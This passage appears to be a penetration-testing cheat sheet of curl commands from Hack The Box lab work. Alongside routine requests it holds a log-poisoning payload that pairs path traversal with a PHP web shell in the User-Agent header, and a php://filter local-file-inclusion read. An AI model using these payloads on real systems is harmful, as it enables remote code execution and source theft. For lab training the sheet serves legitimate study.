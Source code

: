 {% code title="Delete Entry" %}
```bash
curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Combinations</mark>

{% code title="Stealth + SSL Skip + Full details" %}
```bash
curl -s -k -v -i IP
```
{% endcode %}

{% code title="Skip SSL + Verbose + http2" %}
```bash
curl -k -v --http2 <URL>
```
{% endcode %}

{% code title="Stealth + Path Traversal + PHP Revshell Header" overflow="wrap" %}
```bash
curl -s "http://83.136.249.227:31647/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log" -A "<?php system($_GET['cmd']); ?>"
```
{% endcode %}

{% code title="POST + Key-Value pairs Content Header" overflow="wrap" %}
```bash
curl http://example.net:44626/example.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'
```
{% endcode %}

{% code title="Loop Multiple Queries" overflow="wrap" %}
```bash
for i in {1..100}; do echo -n "Post $i: "; curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=$i | tr -s '\n'; done  | tee post-name-list
```
{% endcode %}

{% code title="Wrapper + base64 Encode + Regex" overflow="wrap" %}
```bash
curl http://94.237.55.12:38697/index.php\?language\=php://filter/read\=convert.base64-encode/resource\=configure |  awk 'BEGIN { body=0 } /^$/ { body=1 } body { print }' | grep -o '[A-Za-z0-9+/=]\{20,\}'
```
{% endcode %}
{% endhint %}
